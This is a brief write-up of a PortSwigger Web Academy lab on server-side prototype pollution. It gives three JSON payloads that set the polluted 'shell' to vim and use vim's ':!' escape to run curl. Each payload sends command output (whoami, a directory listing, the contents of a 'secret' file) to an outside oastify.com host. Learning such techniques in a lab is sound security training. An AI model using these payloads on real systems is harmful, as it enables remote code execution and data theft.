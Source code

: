 ```yaml
---
{"dg-publish":true,"permalink":"/port-swigger-web-academy/prototype-pollution/server-side-prototype-pollution/lab-9/"}
---
```



---

This lab is similar to Lab 8 but this time the usual `execArgv`  property payload won't work. We will utilize the `vim` this time.

This is the payload:

```json
"__proto__":{
"shell":"vim",
"input":":! curl https://gcw2kk6asiji226oj9s90d2zxq3hr9fy.oastify.com -d $(whoami)\n"
}
```

The second catch was, the `stdout` was not showing everything, we only get a certain amount of it. For this, we will encode the output in `base64` in the bash command

```json
"__proto__":{
"shell":"vim",
"input":":! curl https://gcw2kk6asiji226oj9s90d2zxq3hr9fy.oastify.com -d $(ls | base64)\n"
}
```

![Pasted image 20250402220545.png](/img/user/Pasted%20image%2020250402220545.png)

Decode it and we found a hidden file `secret`

![Pasted image 20250402220658.png](/img/user/Pasted%20image%2020250402220658.png)\

Now just `cat` it with `base64` and decode it

```json
"__proto__":{
"shell":"vim",
"input":":! curl https://gcw2kk6asiji226oj9s90d2zxq3hr9fy.oastify.com -d $(cat secret | base64)\n"
}
```

![Pasted image 20250402221014.png](/img/user/Pasted%20image%2020250402221014.png)
